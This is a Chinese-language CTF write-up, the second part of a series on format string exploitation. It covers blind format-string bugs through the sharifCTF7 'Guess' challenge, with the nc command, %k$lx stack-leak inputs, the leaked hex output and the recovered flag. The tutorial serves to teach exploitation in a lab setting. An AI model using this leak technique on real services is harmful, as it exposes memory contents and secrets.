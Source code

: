 > 原文链接: https://www.anquanke.com//post/id/85817 


# 【技术分享】格式化字符串漏洞利用小结（二）


                                阅读量   
                                **227977**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



**[![](https://p2.ssl.qhimg.com/t01902143fbd3dda405.jpg)](https://p2.ssl.qhimg.com/t01902143fbd3dda405.jpg)**

****

作者：[tianyi201612](http://bobao.360.cn/member/contribute?uid=2802113352)

稿费：300RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**传送门**

[**【技术分享】格式化字符串漏洞利用小结（一）**](http://bobao.360.cn/learning/detail/3654.html)

[**【CTF攻略】格式化字符串blind pwn详细教程**********](http://bobao.360.cn/ctf/detail/189.html)



**1、无binary的格式化字符串漏洞利用**

无binary的格式化字符串漏洞赛题一般都只给一个远程地址，根据这篇文章（[http://bobao.360.cn/ctf/detail/189.html](http://bobao.360.cn/ctf/detail/189.html) ）可知，这种题目叫“blind pwn”（那这里就是“blind formatstring”了），有点sql注入里面盲注的意思，挺好玩的。

这里选用sharifCTF7来举例，因为这个CTF的服务端至今还开放着，并且提供了三道从易到难的无binary格式化字符串漏洞利用题目，有兴趣的可以尝试一下。这三道题目也将格式化字符串漏洞利用的两种主要方式体现了出来，即“读取数据以泄漏信息”和“写入数据以获取控制权”。

**<br>**

**2、sharifCTF7-Guess（pwn 50）**

```
nc ctf.sharif.edu 54517
```

这题是将flag直接放置在栈中，用户可以输入format字符串并返回相应信息。通过构造类似“%x*n”这样的输入即可获得栈中的n字节信息，从而将隐藏在栈中的flag直接拿到。

通过输入%1$p可知目标系统是64位，然后使用%k$lx并一直增加k值。当k=136时，输出5443666972616853，hex转码后即为“TCfirahS”，说明马上就到flag了，继续增加k，结果如下。



```
136 5443666972616853 TCfirahS
137 3832346435617b46 824d5a`{`F
138 6237636363323336 b7ccc236
139 6136633735336466 a6c753df
140 3561383761383231 5a87a821
141 00007ff6007d6338 `}`c8
Flag：SharifCTF`{`a5d428632ccc7bfd357c6a128a78a58c`}`
```
